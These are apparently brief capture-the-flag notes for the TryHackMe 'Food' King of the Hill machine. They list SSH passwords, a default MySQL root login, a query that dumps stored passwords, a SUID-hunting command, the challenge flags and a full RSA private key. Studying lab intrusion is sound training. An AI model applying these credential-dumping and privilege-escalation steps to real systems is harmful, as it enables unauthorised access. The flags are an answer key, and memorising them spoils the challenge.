# THM-Koth-Food -->

# ssh credential:
pasta:pastaisdynamic 
ramen:noodlesRTheBest
food:givemecookies

Pass the linpeas enumeration authorization information and find that mysql uses the default login password: root:root
/tmp$ mysql -u root -p

Get the login credentials of flag2 and ramen

mysql> select * from user;
ERROR 1146 (42S02): Table 'users.user' doesn't exist
mysql> select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+

# FLAGS:
thm{7baf5aa8491a4b7b1c2d231a24aec575}

thm{2f30841ff8d9646845295135adda8332}

thm{58a3cb46855af54d0660b34fd20a04c1}

# Raise authority to root
find all suid:
/tmp$ find / -perm -u=s -type f 2>/dev/null

# pasta id_rsa:

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuMq9/6Il5rB2QANbYbuYOdb+16f9tIc/85ZW7vvelkzNHADr
HxUKmwcY53C0VWaOzQTzy+xFVwiKuVG3L2z2LQ2W6rSWbw3XCAy9BWnCmXewGOGJ
J7O0tWZoptlD4EY/1/YHdw9f49MWss7yJWT3V/pfytUrKJPiIaVbsHyahhbV1JLc
VfAq1jxPW3+LMbmvP6unvi5X0B4xoGbm64eTWQXHKak1A1wyjYFZtFz98ialAp/+
lwla6MpgJrtgeY6jjRHhkUd/WT0ud1JH+N4Lbldn1Z3Swc6TyEaDrO7v5YLe9ac0
jo/bfhr60X25apItar3VqkWicINZIrJMWSpzJwIDAQABAoIBADdnSdnYAqcMpxeA
Kii+NuC4jgWYb19t4YWlwIC8cTr84c4QlG3oQBrE4Pma9+ZW7l+XqYStXQjAHd98
GYEVmSVe2q2Z4TSAoMTgFNgHonmiweBj1lxZ68crYhsMLuaSCVg1gn121ZgX1Mld
dIozoFj3Tzsf+GWdGQJfcoMSiL3EngQgpxnYGBw5c1AC7DmxFr8NZq2ZlopvlO3Y
bgPWKLtORA4Mksbml8dM1yHsSq8Qg/dCtfe6ldGliqpLQMGj49UWvhbfr63c4+de
a/M247ykFXsW0q9e/ACYlDPFr177PMDK/0KRnY0JTtUeowoqYangAbp1ZTHZpNpj
hGEXGOkCgYEA7TDAu8bl+wDdl6XSdWZIJW2v7iV5ksOPBIqRU8xDX05nnnTY4uqO
9OKPwQo2Qx1gmnZpDAmi+ubW2TVtO75nPqcd/mofycrsKCvaZoGGfKkqyIfdPLZx
8pUsqd1gT2PPK+R22x9tYurlXCJjP2wXEOznBdyxbLYoYzRaIv8weTsCgYEAx3I8
8jWYddhl+wklyuKNX/hqeNgWSZAsUq4vyXK5x4u7Vqd9g0lyJhMCMHBCa7rEDCPf
U6mFhPeGDmqrECxZ9xfRofZq+AwJHAXxcmoou7z7S1Ga1P8N1y7LQGgmcrBw2lkf
kViBaMNGJFOLgtR/QbKzXa3TlfRSZ5sIy0N+7wUCgYEAnqsrczIV7PhiRC0Agdqf
TrJ2q0fUcRJzHOWZXEZbl2j6tiySXhHs+fKJmeg77l+7nPizQwM7TL6ZYQp1fS7d
IDNpRCU4CKS/oAvd+Q6Sqdf8r9L7c77UsSOLkkJuSA2LrGAUBnealD5wmlbCr82e
DIt97BT7d67Pi7WcyqaNhbsCgYB9TzErnLDlmci5KM4t4pmgqpt6wYl/Pq4aZIZx
szs2PHy/vQwG6KZndZnyhRW2SenTFtbB4ciZ+kqn1C0WREdiD/0OHZynrCgtCy7g
DAL7sYjRkbwOBxHTGPtqxAUkGedNyKEk2M6127q+KB+HW6t4w6YePZCqro73uViV
HRsrYQKBgQCaCQD3EX7im9B+CL2XfTCs3fp/WgL6Xw0otiMKHqEuBM9upU4LYs4F
jXaj5A1iFJibD6YoGGBt3sc7Wl2cS4YJO24GtOQlsgK/W2+VQANwQaYZOJPwrR2c
19IyrUe3VZjDbJQpLO1TwBdKj/MpcQhhB+m6WXhVYWkixfTTM6VSyg==
-----END RSA PRIVATE KEY-----

# --END--
